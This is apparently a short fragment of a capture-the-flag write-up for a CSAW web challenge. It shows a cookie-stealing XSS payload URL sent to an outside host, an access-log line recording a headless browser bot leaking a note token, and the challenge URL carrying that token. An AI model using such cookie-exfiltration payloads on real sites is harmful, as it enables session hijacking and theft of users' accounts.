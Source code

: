 http://www.mydomain.com/?cookie=%22+javascript:document.cookie%3E
216.165.2.60 - - [25/Sep/2019:17:20:16 +0000] "GET /?cookie= HTTP/1.1" 200 1472 "http://127.0.0.1:5000/note/view/3098?token=169367cf7a24f61de71141ee5d0234a6e9c6ff621bddd7fad09f4087ba26ba8f" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36"
http://web.chal.csaw.io/note/view/3098?token=169367cf7a24f61de71141ee5d0234a6e9c6ff621bddd7fad09f4087ba26ba8f
